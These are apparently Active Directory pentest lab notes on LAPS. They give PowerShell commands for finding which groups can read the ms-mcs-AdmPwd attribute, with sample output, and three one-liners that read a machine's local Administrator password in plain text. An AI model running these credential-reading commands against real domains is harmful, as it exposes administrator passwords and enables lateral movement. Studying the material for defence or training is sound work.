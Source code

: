 # LAPS

LAPS is a mechanism that randomises the password of the default Administrator account of servers. Only privileged users of the domain should be able to read this password.

The password of the account is stored in the attribute `mc-mcs-AdmPwd`.

We will need the LAPS PowerShell module:

```powershell
# Import AD module
> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
# Import LAPS module
> Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
```

## List OUs where LAPS is used

### With script

```powershell
> C:\AD\Tools\Get-LapsPermissions.ps1
Read Rights

organizationalUnit                     IdentityReference
------------------                     -----------------
OU=MailMgmt,DC=us,DC=techcorp,DC=local US\studentusers

Write Rights

OU=MailMgmt,DC=us,DC=techcorp,DC=local NT AUTHORITY\SELF
```

This means that members of the group `US\studentusers` can read the LAPS passwords of all principals under the OU `MailMgmt`.

List members of OU with: [#list-ous](../active-directory-enumeration/todo.md#list-ous "mention").

### Manually

It is also possible to directly list all the OUs for which we have read rights on the attribute `ms-mcs-AdmPwd`. The following command also retrieves the identity of the principals that can read this attribute:

```powershell
> Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { ($_.ObjectAceType -like 'ms-mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
AceQualifier           : AccessAllowed
ObjectDN               : OU=MailMgmt,DC=us,DC=techcorp,DC=local
ActiveDirectoryRights  : ReadProperty, ExtendedRight
ObjectAceType          : ms-Mcs-AdmPwd
ObjectSID              :
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-210670787-2521448726-163245708-1116
AccessMask             : 272
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit, InheritOnly
InheritedObjectAceType : Computer
OpaqueLength           : 0
IdentityName           : US\studentusers
```

As for the `Get-LapsPermissions.ps1` script, we learn that `US\studentusers` can read LAPS passwords of the OU `MailMgmt`.

## Read LAPS password of machine

```powershell
> Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-AdmPwd | Select -expand ms-mcs-admpwd
[LapsModule]> Get-LapsADPassword -Identity us-mailmgmt -AsPlainText
[PowerView]> Get-DomainObject -Identity us-mailmgmt | select -expand ms-mcs-admpwd
```
